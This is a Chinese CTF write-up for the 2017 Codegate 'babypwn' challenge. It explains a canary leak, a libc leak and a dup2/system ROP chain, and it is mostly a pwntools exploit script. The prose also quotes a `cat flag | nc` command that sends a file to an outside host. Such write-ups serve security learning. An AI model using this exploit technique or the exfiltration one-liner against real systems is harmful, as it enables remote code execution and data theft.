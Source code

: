 ```yaml
---
title: 2017codgate pwn
tags:
  - PWN
  - writeup
categories: []
date: 2017-02-17 18:55:14
---
```


话说一个笔误400分就没了= =，当时怎么就没发现呢，还是编程能力太差Orz

## babypwn

简单题，和2017Ins的babypwn题目一样，除了32位变64位，后来才知道原来32位也可以构成ropchain，和64位一样的传参顺序，难道是如果栈上没有参数就到regs里去找？还是特殊函数传参方法不一样？总之知道`dup2`可以就好了，其他的接着在研究。。

程序没有在字符串后补`\00`,先覆盖`canary`的`\00`位泄露`canary`，然后泄露`libcbase`，然后`dup2`+`system`构成`ropchain`。

看了别人的wp，发现还有别的方法，由于程序里调用了`system`，可以先将用`recv`命令`cat flag | nc reehy.top 6666`写到内存中比如`.data`，然后用`system(.data)`即可。

exp

```
from pwn import *

DEBUG = 1


elf = ELF('./babypwn')
system = 0x8048620
system = elf.symbols['system']
send = elf.symbols['send']
system_got = elf.got['system']
send_got = elf.got['send']
start_main_got = elf.got['__libc_start_main']
exit_got = elf.got['exit']
recv_got = elf.got['recv']
main = 0x08048A71
ret = 0x08048572
choose = 0x080488B1
ppr = 0x08048b84

if DEBUG:
    context.log_level = 'debug'
    libc = ELF('libc.so.6')
    p = remote('127.0.0.1', 8181)
else:
    libc = ELF('libc-2.19_16.so')
    p = remote('110.10.212.130', 8889)

def canary():
    p.recvuntil('menu >')
    p.sendline('1')
    p.recvuntil('Message :')
    payload = 'a' * 40
    p.sendline(payload)
    p.recvline()
    a = p.recvline()
    canary = u32('\x00' + a[0:3])
    return canary

def leak40(addr):
    p.recvuntil('menu >')
    p.sendline('1')
    p.recvuntil('Message :')
    offset = 'a' * 40 + p32(canary) + 'a' * 8 + p32(0)
    payload = offset + p32(send) + p32(main)
    payload += p32(4) + p32(addr) + p32(4) + p32(0)
    p.sendline(payload)
    p.recvuntil('menu >')
    p.sendline('3')
    p.recv(1)
    leak = u32(p.recv(4))
    return leak

def dofomat():
    p.recvuntil('menu >')
    p.sendline('1')
    p.recvuntil('Message :')
    offset = 'a' * 40 + p32(canary) + 'a' * 8 + p32(0)
    payload = offset
    payload += p32(dup2) + p32(ppr) + p32(4) + p32(0)  # failed!
    payload += p32(dup2) + p32(ppr) + p32(4) + p32(1)
    payload += p32(system) + p32(0) +p32(binsh)
    p.sendline(payload)
    p.recvuntil('menu >')
    p.sendline('3')

if __name__ == '__main__':
    canary = canary()
    leak = leak40(send_got)
    dup2 = libc.symbols['dup2'] - libc.symbols['send'] + leak
    binsh = libc.search('/bin/sh').next() - libc.symbols['send'] + leak
    dofomat()
    p.interactive()
    p.close()
```